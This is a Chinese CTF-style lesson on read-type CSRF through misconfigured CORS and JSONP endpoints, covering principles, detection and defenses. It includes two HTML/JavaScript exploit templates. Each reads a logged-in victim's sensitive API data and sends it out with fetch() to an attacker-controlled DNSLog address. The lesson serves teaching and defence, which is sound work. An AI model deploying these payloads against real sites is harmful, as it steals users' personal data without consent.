# CTF教程：P63：CSRF实战

## 概述
在本节课中，我们将要学习两种特殊的跨站请求伪造漏洞：CORS与JSONP。这两种漏洞属于“读取型”CSRF，攻击者可以借此窃取用户的敏感数据。我们将了解它们的原理、如何寻找以及如何利用。

## 同源策略与跨域解决方案
上一节我们介绍了操作型CSRF，本节中我们来看看读取型CSRF。要理解这类漏洞，首先需要了解浏览器的“同源策略”。

同源策略规定，不同源的脚本在没有明确授权的情况下，不能读取对方的资源。例如，A网站的JavaScript脚本无法直接读取B网站的数据。

然而，在现代Web开发中，前后端分离架构非常普遍，经常需要从一个域名的网页去请求另一个域名的资源（即跨域）。为了解决跨域问题，开发者采用了多种方案。

以下是三种常见的跨域解决方案：
*   **CORS**：目前最主流的跨域解决方案。
*   **JSONP**：一种较老的跨域技术，利用 `<script>` 标签的特性。
*   **PostMessage**：使用较少，本课程不做重点讲解。

CORS和JSONP本意是解决合法的跨域需求，但如果配置不当，就可能被攻击者利用，形成“读取型”CSRF漏洞。

## CORS跨域资源共享漏洞
### 漏洞原理
CORS通过在HTTP头中添加特定字段来声明允许跨域访问的源。关键字段是 `Origin`（请求头）和 `Access-Control-Allow-Origin`（响应头）。





其工作流程如下：
1.  浏览器向目标站点发送请求，并带上 `Origin: [来源域名]` 请求头。
2.  目标站点检查 `Origin` 值。如果允许该来源跨域，则在响应头中包含 `Access-Control-Allow-Origin: [允许的域名]`。
3.  浏览器检查响应头。如果包含 `Access-Control-Allow-Origin` 且值与当前源匹配（或为 `*`），则允许页面处理响应数据；否则驳回请求。

漏洞的成因在于服务器配置了CORS，但 `Access-Control-Allow-Origin` 的值设置过于宽松（例如设置为通配符 `*`），或者错误地反射了请求中的 `Origin` 值，导致任何网站都可以跨域读取该接口的数据。





### 如何寻找CORS漏洞
寻找CORS漏洞的方法很简单：在Burp Suite等工具中拦截请求，修改或添加 `Origin` 请求头（例如改为 `http://evil.com`），然后观察响应头中 `Access-Control-Allow-Origin` 的值。

如果 `Access-Control-Allow-Origin` 的值与您设置的 `Origin` 值相同（反射），或者固定为 `*`，则存在CORS配置不当的问题。

### 漏洞利用
存在CORS漏洞的接口可以被攻击者构造的恶意页面跨域读取。攻击者可以将恶意页面链接发送给受害者，当受害者（已登录目标网站）访问该链接时，攻击者页面上的JavaScript就能窃取到目标接口返回的敏感数据（如个人信息、收货地址等）。







以下是利用CORS漏洞读取数据的核心代码模板：
```html
<script>
function cors() {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            // 将窃取到的数据发送到攻击者服务器
            fetch('http://your-dnslog-address/?' + encodeURIComponent(xhr.responseText));
        }
    }
    // 目标存在CORS漏洞的敏感接口
    xhr.open('GET', 'https://vulnerable-site.com/api/sensitive_data', true);
    xhr.withCredentials = true; // 携带Cookie
    xhr.send();
}
cors();
</script>
```
**注意**：你需要将 `https://vulnerable-site.com/api/sensitive_data` 替换为实际的目标接口，并将 `http://your-dnslog-address/` 替换为你控制的接收数据的地址（如DNSLog平台）。



## JSONP跨域漏洞
### 漏洞原理
JSONP是一种利用 `<script>` 标签不受同源策略限制来实现跨域的技术。网站通过 `<script>` 标签加载一个返回JSON数据的接口，并通过URL参数指定一个回调函数名（通常是 `callback` 或 `jsonp`）。

例如：`<script src="http://target.com/api?callback=handleData"></script>`。服务器会将JSON数据包裹在回调函数中返回，如 `handleData({"user":"admin"});`，浏览器将其作为JS代码执行，从而实现了跨域数据获取。

漏洞的成因在于，如果JSONP接口对回调函数名参数没有进行严格的过滤和检查（例如未验证Referer），攻击者就可以构造恶意页面，指定回调函数为自己的函数，从而窃取数据。




### 如何寻找JSONP漏洞
寻找JSONP漏洞的方法是：在请求中寻找包含 `callback`、`jsonp`、`cb` 等参数的接口。尝试修改该参数的值（例如改为 `test`），如果返回的数据被包裹在你修改后的函数名中（如 `test({...})`），则说明该接口支持JSONP，且可能存在未授权调用风险。

### 漏洞利用
攻击者可以构造一个恶意页面，其中定义好回调函数来窃取数据，并通过 `<script>` 标签调用目标JSONP接口。

以下是利用JSONP漏洞读取数据的核心代码模板：
```html
<script>
// 定义恶意回调函数
function stealData(data) {
    // 将窃取到的数据发送到攻击者服务器
    fetch('http://your-dnslog-address/?' + encodeURIComponent(JSON.stringify(data)));
}
</script>
<!-- 调用存在漏洞的JSONP接口，并指定回调函数为stealData -->
<script src="https://vulnerable-site.com/api/user_info?callback=stealData"></script>
```
**注意**：你需要将 `https://vulnerable-site.com/api/user_info?callback=stealData` 替换为实际的目标JSONP接口，并将 `http://your-dnslog-address/` 替换为你控制的接收数据的地址。

## 漏洞防御
无论是CORS还是JSONP漏洞，核心的防御思路都是对请求来源进行严格校验。

*   **CORS防御**：服务器端应对 `Access-Control-Allow-Origin` 字段进行严格设置，避免使用通配符 `*`，而是精确指定允许的来源域名白名单。同时，避免简单地反射请求中的 `Origin` 头。
*   **JSONP防御**：严格校验 `Referer` 请求头，确保请求来源于合法的自家域名。或者对回调函数名进行严格的过滤，只允许预期的、安全的函数名。





## 总结
本节课中我们一起学习了两种读取型CSRF漏洞：CORS与JSONP。我们了解了它们源于跨域解决方案的配置不当，攻击者可以利用它们窃取用户的敏感数据。关键点在于：
1.  CORS漏洞通过检查 `Access-Control-Allow-Origin` 响应头是否配置不当来发现。
2.  JSONP漏洞通过检查包含 `callback` 等参数的接口，并尝试修改参数值来发现。
3.  两者的利用方式都是构造恶意页面，诱骗已登录用户访问，从而跨域读取数据。
4.  防御的关键在于对请求来源（Origin/Referer）进行严格的白名单校验。



请务必在授权环境下进行练习，巩固对这些漏洞的理解。